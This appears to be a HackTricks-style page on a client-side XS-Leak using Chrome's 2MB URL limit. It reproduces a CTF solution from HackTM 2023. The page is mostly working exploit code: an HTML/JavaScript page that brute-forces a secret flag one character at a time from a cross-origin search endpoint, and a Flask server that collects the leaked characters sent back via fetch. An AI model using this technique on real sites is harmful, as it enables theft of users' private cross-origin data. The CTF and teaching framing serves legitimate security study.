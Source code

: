 # URL Max Length - Client Side

{{#include ../../banners/hacktricks-training.md}}

Code from [https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit)

```html
<html>
  <body></body>
  <script>
    ;(async () => {
      const curr = "http://secrets.wtl.pw/search?query=HackTM{"

      const leak = async (char) => {
        fetch("/?try=" + char)
        let w = window.open(
          curr + char + "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2)
        )

        const check = async () => {
          try {
            w.origin
          } catch {
            fetch("/?nope=" + char)
            return
          }
          setTimeout(check, 100)
        }
        check()
      }

      const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

      for (let i = 0; i < CHARSET.length; i++) {
        leak(CHARSET[i])
        await new Promise((resolve) => setTimeout(resolve, 50))
      }
    })()
  </script>
</html>
```

Server side:

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars

    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

{{#include ../../banners/hacktricks-training.md}}


